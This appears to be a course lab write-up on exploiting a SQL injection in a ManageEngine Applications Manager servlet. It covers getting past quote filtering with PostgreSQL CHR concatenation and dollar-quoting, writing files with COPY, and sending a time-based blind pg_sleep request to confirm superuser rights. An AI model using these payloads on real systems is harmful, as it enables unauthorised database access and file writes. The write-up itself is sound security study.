 ## Special Character Encoding
As it stands, the ability to use quotes is highly limited.
This is because when we try to send a payload with quotes, to the vulnerable URL, and analyze the log file. We see the following:

![](../../03.%20Screenshots/t2-ss10.png)

This time the error is different.
It turns out, special characters are HTML-encoded before they are sent to the database for further processing.
This means we cannot use quotes in our queries, which creates a caveat to solve.

## Using Concatenation
One of the ways in which we can bypass the quotes restriction is to use the [_CHR_](https://www.postgresql.org/docs/9.1/functions-string.html) and _concatenation_ syntax.
We can select individual characters using their code points, and concatenate them together using the double pipe (||) operator.

```postgresql
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
-- this will give the output of "AWAE"
```

This does give us a solution, but not a stable one, as we cannot use this to execute any functions such as the COPY function which is necessary for code execution:

![](../../03.%20Screenshots/t2-ss11.png)

The _CHR_ function can be very helpful while dealing with non-printable characters, however it does not help with our quote restriction.

## Dollar Dollar
The postgres syntax also supports of dollar-quoted string constants.
Their purpose is to make it easier to read statements that contain strings with literal quotes.
Essentially, two dollar characters, can be used as a quote.
As a result, all of these statements give the same result:

```postgresql
SELECT 'print this'
SELECT $$print this$$
SELECT $TAG$print this$TAG$
```

This lets us fully bypass the quote restriction, and lets us form statements like:
```postgresql
CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
-- this will create a file called test.txt with the text "offsec"
```

## Creating The Payload
Now that we can bypass the quotes restriction and are able to execute arbitrary stacked queries, it would be helpful to verify what database privileges the vulnerable application is running with.
Remembering that we have to use a time-based blind injection, we will work on the following query that returns true if the user is DBA:

```postgresql
SELECT current_setting('is_superuser');
```

Thus, we will use the following request to trigger the database sleep function if our database user is indeed DBA:

```http
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(5)+end;--+
```

Executing the request, we get a response back delayed by 5 seconds, indicating that we indeed are the DBA user:

![](../../03.%20Screenshots/t2-ss12.png)

